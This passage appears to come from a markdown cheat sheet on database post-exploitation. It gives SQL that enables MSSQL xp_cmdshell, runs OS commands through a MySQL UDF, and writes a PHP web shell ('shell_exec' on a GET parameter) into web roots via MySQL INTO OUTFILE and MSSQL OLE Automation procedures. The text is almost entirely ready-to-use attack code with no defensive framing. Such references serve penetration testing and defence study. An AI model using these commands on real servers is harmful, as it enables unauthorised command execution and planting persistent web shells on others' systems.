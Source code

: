 #### Enable xp_cmdshell
```sql
-- Enable advanced options
EXECUTE sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO

-- Enable xp_cmdshell
EXECUTE sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO
```

### 2. MySQL Command Execution

#### User Defined Functions (UDF)
```sql
-- MySQL UDF for command execution
-- Requires custom C/C++ UDF compilation
-- GitHub repository: https://github.com/mysqludf/lib_mysqludf_sys

-- Example usage (if UDF available)
SELECT sys_exec('whoami');
```

---

## 📂 File Operations

### 1. Write Local Files

#### MySQL File Writing
```sql
-- Write web shell to web directory
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

-- Check secure_file_priv setting
SHOW VARIABLES LIKE "secure_file_priv";
```

#### MSSQL File Writing
```sql
-- Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO

-- Create web shell file
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```